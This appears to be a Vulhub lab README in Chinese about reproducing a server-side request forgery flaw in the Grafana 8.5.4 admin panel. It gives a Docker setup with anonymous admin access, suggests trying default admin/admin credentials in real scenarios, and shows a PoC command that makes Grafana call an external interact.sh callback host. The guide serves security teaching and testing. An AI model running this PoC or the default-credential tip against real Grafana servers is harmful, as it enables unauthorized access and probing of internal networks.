

# Grafana管理后台SSRF

Grafana是一个开源的度量分析与可视化套件。在其管理后台中存在一个功能，攻击者可以用于向任意地址发送HTTP请求，且支持自定义HTTP Header。

参考链接：

- <https://github.com/RandomRobbieBF/grafana-ssrf>

## 漏洞环境

执行如下命令启动一个Grafana 8.5.4：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可查看到管理后台。这个管理后台是不需要登录的，因为Vulhub环境设置了匿名用户的权限：

```ini
[auth.anonymous]
enabled = true
org_role = Admin
```

在真实场景中，如果你没有权限访问管理界面，可以尝试使用默认账号密码`admin`和`admin`，只能能够成功登录后台的用户才能利用这个漏洞。

## 漏洞复现

使用[这个POC](https://github.com/RandomRobbieBF/grafana-ssrf)来复现SSRF漏洞：

```
python grafana-ssrf.py -H http://your-ip:3000 -u http://example.interact.sh/attack
```



可见，我们的反连平台已成功收到了HTTP请求：


